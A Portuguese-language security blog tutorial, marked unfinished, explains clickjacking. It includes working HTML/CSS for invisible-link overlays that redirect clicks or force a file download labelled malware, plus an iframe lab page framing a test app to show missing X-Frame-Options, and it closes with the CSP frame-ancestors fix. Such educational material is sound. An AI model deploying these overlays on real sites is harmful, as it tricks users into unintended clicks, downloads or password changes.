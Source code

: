 ```yaml
---
title: (Em construção) - Testando Para Clickjacking
date: 2023-12-29 12:12:12 +/-TTTT
categories: [Sharing Knowledge, Cybersecurity, Web]
img_path: ../../assets/images
image:
  path: thumb_post_clickjacking.png
  alt: Iframes do Clickjacking
tags: [cybersecurity,web]     # TAG names should always be lowercase
---
```



<!-- {% include embed/youtube.html id='ORRaHV9HSrI' %} -->


---



{: .prompt-warning }
> Qual problema esse artigo resolve ?

Clickjacking por vezes parece ser algo abstrato e de dificil compreensão. Parece ter relação com headers de segurança, entretanto não é tão simples de compreender o que de fato é o clickjacking, como se explora, como se testa a vulnerabilidade e como se corrige.

---

{: .prompt-tip }
> O que vamos fazer?

Nesse artigo vamos demonstrar como funciona o clickjacking, como testar aplicações para clickjacking e quais o headers de segurança precisamos implementar para eliminar essa vulnerabilidades.

Iremos utilizar um laboratorio utilizando ec2, route 53 e criatividade.

---

## 1 - O que é clickjacking

Clickjacking tem em sua etimologia a descrição de "roubo de clicks" onde basicamente um atacante se esforça para "roubar" ou coletar o click que iria para outro site ou outro local. 

Imagine que você abre seu navegador e quer acessar o seu internet banking, e em algum momento você vai precisar clicar em botões, links, campos de texto, etc... 

Toda a ideia do clickjacking é fomentar um ambiente para que seja possível que a vítima acredite que legitimamente está clicando em algo, nesse caso, o internet banking, ela consegue até visualizar com certa familiaridade onde está clicando, mas existe um "botão" transparente na frente em que vai roubar o click da vítima e direciona-la para um download de um malware, ou para um site ficticio.

Geralmente o clickjacking envolve a incorporação de um site em um "iframe" e a sobreposição de um botão invisível em cima de desse iframe. 

## 2 - Cenário de ataque Clickjacking

### 2.1 - Clickjacking utilizando Imagens

Imagine que Jonas está em uma conversa informal pela internet quando percebe que um meme que está no "hype" popularmente conhecido como "meme do pão francês brasileiro" encaixaria muito bem no contexto da conversa, Jonas lembra do meme mas não sabe exatamente onde ele está armazenado para compartilhar.

Então o que ele faz ? Procura no google por "meme do pão francês brasileiro". E aqui começa o ataque.

Ao pesquisar por meme do pão francês brasileiro, o google naturalmente vai retornar diversos links de diversos sites.

Agora imagine que você como atacante se aproveita da popularidade desse meme e cria um site malicioso que contém o meme, pronto para buscar pessoas como Jonas. O site aparenta como a imagem abaixo:

![memes_fake](memes1.png){: .normal w="700" h="400" }

Jonas naturalmente clica aleatoriamente no link que aparece no resultado das pesquisas e acaba indo parar no site do atacante.

Ao passar o mouse em cima do meme, percebe que é "clicável", prontamente Jonas imagina que deve leva-lo até a origem do meme então clica.

![clickjacking](clickjacking.gif){: .normal w="700" h="400" }

Aqui temos um exemplo de clickjacking. No gif acima é possível ver que Jonas foi redirecionado para um link arbitrariamente escolhido pelo atacante. Ao pensar que estava clicando no meme quando na verdade estava clicando em uma camada posta propositalmente na frente do meme.

Isso acontece pois existem duas camadas nessa imagem. Uma é a própria imagem em si:

```html
<img src="images/memes1.jpeg" alt="Meme 1">
```

E a outra camada, que fica por cima da imagem é um link que leva a uma origem arbitrária. Atenção para a class "invisible-link":

```html
<body>
    <h1>Top 15 Memes 2023</h1>
    <div class="iframe-container">
        <img src="images/memes1.jpeg" alt="Meme 1">
	      <a href="https://media.tenor.com/He2W0AQvZfsAAAAC/hacked-hack.gif" class="invisible-link" target="_blank" rel="noopener noreferrer"></a>
    </div>
</body>
```

CSS:

```css
        .invisible-link {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 999;
            cursor: pointer;
        }
        .iframe-container {
            display: inline-block;
            margin: 0 10px;
            position: relative;
        }
```

---

### 2.2 - Clickjacking para Download de malwares

![clickjacking2](download_malware.gif){: .normal w="700" h="400" }

```html
<body>
    <h1>Top 15 Memes 2023</h1>
    <div class="iframe-container">
        <img src="images/memes1.jpeg" alt="Meme 1">
	<a href="images/malware.txt" class="invisible-link" rel="noopener noreferrer" download></a>
    </div>
</body>
```
---

Aqui está o código completo:

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Meme Page</title>
    <style>
        body {
            font-family: 'Courier New', monospace;
            text-align: left;
            margin: 0;
            padding: 0;
            background-color: #255255255;
        }

        h1 {
            color: #000;
            margin-bottom: 20px;
        }

        .iframe-container {
            display: inline-block;
            margin: 0 10px;
            position: relative;
        }

        /* Link Invisível */
        .invisible-link {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 999;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <h1>Top 15 Memes 2023</h1>
    <div class="iframe-container">
        <img src='images/memes1.jpeg' alt="Meme 1">
        <img src='images/memes2.jpeg' alt="Meme 2">
	<!-- redireciona arbitrariamente -->
<!-- <a href="https://media.tenor.com/He2W0AQvZfsAAAAC/hacked-hack.gif" class="invisible-link" target="_blank" rel="noopener noreferrer"></a>-->
	<!-- causa o download de malware -->
	<a href="{{ url_for('static',filename='images/malware.txt') }}" class="invisible-link" rel="noopener noreferrer" download></a>
    </div>
</body>
</html>
```

---


### 2.3 - Clickjacking Clássico (iframes)

O ataque clássico de clickjacking basicamente envolve incorporar uma página legítima em um frame, e induzir a vítima a clicar em determinados locais.

Para explicar o ataque clássico, vamos imaginar uma aplicação web que contém uma página de reset de senha. Para resetar a senha obviamente você precisa estar logado na aplicação.

O formulário de reset de senha é protegido por token único para cada sessão, então um ataque do tipo CSRF não é viável.

A aplicação não configurou os headers de segurança x-frame-options ou CSP, Então nesse caso o ataque de clickjacking é uma boa alternativa para os atacantes. 

App vulneravel:

![reset_senha](reset_senha_1.png){: .normal w="700" h="400" }

Para testar se essa app é de fato vulneravel a um ataque de clickjacking, vamos tentar incorporar essa página em um iframe de outro domínio. Para isso vamos montar um html local e tentar incorpora-lo.

E para comparação, iremos tentar incorporar uma página que sabemos que é segura, o google. E colocaremos os dois iframes um do lado do outro:

![comparacao_iframe](comparacao_iframe.png){: .normal w="700" h="400" }

Abaixo tem o código html utilizado, repare que a incorporação acontece na tag "<iframe>":

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clickjacking Hacker Lab</title>
    <style>
        body {
            font-family: 'Courier New', monospace;
            text-align: center;
            margin: 0;
            padding: 0;
            background-color: #000;
            color: #0f0;
        }

        h1 {
            color: #0f0;
            margin-bottom: 20px;
        }

        .iframe-container {
            display: inline-block;
            margin: 0 10px;
            position: relative;
        }

        .iframe-container iframe {
            width: 100%;
            height: 450px;
            border: 2px solid #0f0;
            background-color: #000;
        }

        .iframe-description {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            background-color: rgba(0, 0, 0, 0.7);
            color: #0f0;
            font-size: 18px;
            padding: 10px;
            box-sizing: border-box;
            z-index: 1;
        }

        .impact-section {
            margin-top: 50px;
        }

        .impact-section h2 {
            color: #0f0;
            margin-bottom: 10px;
        }

        .impact-text {
            text-align: left;
            max-width: 600px;
            margin: 0 auto;
            color: #0f0;
        }
        /* Link Invisível */
        .invisible-link {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 999;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <h1>Clickjacking Hacker Lab</h1>

    <div class="iframe-container">
        <iframe src="http://app.absolem00.com/"></iframe>
        <div class="iframe-description">Vulneravel a clickjacking</div>
    </div>

    <div class="iframe-container">
        <iframe src="https://www.google.com.br"></iframe>
        <div class="iframe-description">Não vulneravel a clickjacking</div>
    </div>

    <div class="impact-section">
        <h2>Impactos do Clickjacking:</h2>
        <div class="impact-text">
            <p>O Clickjacking é uma técnica maliciosa que engana o usuário ao clicar em algo diferente do que percebem.</p>
            <p>Impacto: Clicar em botões não intencionais, baixar malwares, ser direcionado para páginas de phishing, etc...</p>
            <p>É importante implementar medidas de segurança, usualmente habilita-se o header de resposta Content-Security-Policy (CSP) com a diretiva "frame-ancestors". Ou o X-Frame-Options, para prevenir ou mitigar os riscos associados ao Clickjacking.</p>
        </div>
    </div>

    <div class="impact-section">
        <h2>Cenário Real. Clique abaixo</h2>
    </div>

    <div class="iframe-container">
        <iframe src="http://app.absolem00.com/" allowtransparency="true"></iframe>
        <a href="https://media.tenor.com/He2W0AQvZfsAAAAC/hacked-hack.gif" class="invisible-link" target="_blank" rel="noopener noreferrer"></a>
    </div>

</body>
</html>
```

Maravilha, agora sabemos que a app de fato pode ser incorporada em um iframe e pode ser utilizada em um ataque de clickjacking.

A partir daqui, o principio é o mesmo. Adicionar uma camada transparente na frente do iframe para induzir o atacante a clicar no "Redefinir Senha" para redefinir a senha para vazio, ou em casos mais elaborados iludir o usuário a preencher campos. Enfim, aqui a criatividade é a principal arma para o ataque ser bem sucedido.

![clickjacking_lab](lab_clickjacking.gif){: .normal w="700" h="400" } 



## Bypassing de CSRF

Um atacante pode utilizar o clickjacking para **bypassar CSRF**. Como muitos de vocês devem saber, CSRF é um token único para ser utilizado principalmente em formularios. E o clickjacking permite que o próprio usuário clique, com seu "próprio csrf".

---

## Como Corrigir Clickjacking?

A solução mais simples envolve a adição do header de segurança "CSP" que significa Content-Security-Policy com a diretiva "frame-ancestors". A qual permite gerenciar quando a página pode ser incorporada em um frame







